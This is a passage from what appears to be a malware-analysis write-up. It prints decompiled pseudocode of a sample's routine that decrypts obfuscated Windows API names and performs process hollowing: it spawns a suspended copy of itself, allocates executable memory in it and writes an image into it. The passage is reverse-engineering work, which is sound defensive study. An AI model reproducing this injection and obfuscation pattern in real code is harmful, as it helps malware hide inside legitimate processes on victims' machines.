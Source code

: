 Before each call to GetProcAddress the fcn.00401300 is called. Let's assume that fcn.00401300 is our decryption function for now.

```c
void __fastcall fcn.00401000(int32_t param_1)
{
    undefined4 uVar1;
    code *pcVar2;
    int32_t iVar3;
    undefined4 *puVar4;
    code *pcVar5;
    code *pcVar6;
    int32_t iVar7;
    int32_t *piVar8;
    int32_t iVar9;
    int32_t iVar10;
    int32_t unaff_EDI;
    int32_t var_470h;
    undefined4 var_46ch;
    int32_t var_468h;
    undefined4 var_464h;
    undefined4 var_460h;
    int32_t var_45ch;
    int32_t var_458h;
    int32_t var_454h;
    int32_t var_448h;
    undefined4 lpFilename;
    int32_t var_4h;
    
    piVar8 = (int32_t *)(*(int32_t *)(param_1 + 0x3c) + param_1);
    (*_GetModuleFileNameA)(0, &lpFilename, 0x400);
    if (*piVar8 == 0x4550) {
        _var_458h = ZEXT816(0);
        fcn.004025b0(&var_448h, 0, 0x44);
        fcn.00401300();
        fcn.00401300();
        pcVar5 = _LoadLibraryA;
        uVar1 = (*_LoadLibraryA)(0x414894);
        pcVar2 = (code *)(*_GetProcAddress)(uVar1, "pe51g5Ceb35ffn");
        iVar3 = (*pcVar2)(&lpFilename, 0, 0, 0, 0, 4, 0, 0, &var_448h, &var_458h);
        if (iVar3 != 0) {
            fcn.00401300();
            uVar1 = (*pcVar5)(0x414894);
            pcVar2 = (code *)(*_GetProcAddress)(uVar1, 0x4148e8);
            puVar4 = (undefined4 *)(*pcVar2)(0, 4, 0x1000, 4);
            *puVar4 = 0x10007;
            fcn.00401300();
            uVar1 = (*pcVar5)(0x414894);
            pcVar2 = (code *)(*_GetProcAddress)(uVar1, "t5gG8e514pbag5kg");
            iVar3 = (*pcVar2)(var_454h, puVar4);
            if (iVar3 != 0) {
                fcn.00401300();
                uVar1 = (*pcVar5)(0x414894);
                pcVar5 = (code *)(*_GetProcAddress)(uVar1, "E514Ceb35ffz5=bel");
                fcn.00401300();
                uVar1 = (*_LoadLibraryA)(0x414894);
                pcVar2 = (code *)(*_GetProcAddress)(uVar1, "Je9g5Ceb35ffz5=bel");
                (*pcVar5)(var_458h, puVar4[0x29] + 8, &var_45ch, 4, 0);
                fcn.00401300();
                uVar1 = (*_LoadLibraryA)(0x414894);
                pcVar5 = _GetProcAddress;
                pcVar6 = (code *)(*_GetProcAddress)(uVar1, "I9egh1/n//b3rk");
                iVar3 = (*pcVar6)(var_458h, piVar8[0xd], piVar8[0x14], 0x3000, 0x40);
                (*pcVar2)(var_458h, iVar3, param_1, piVar8[0x15], 0);
```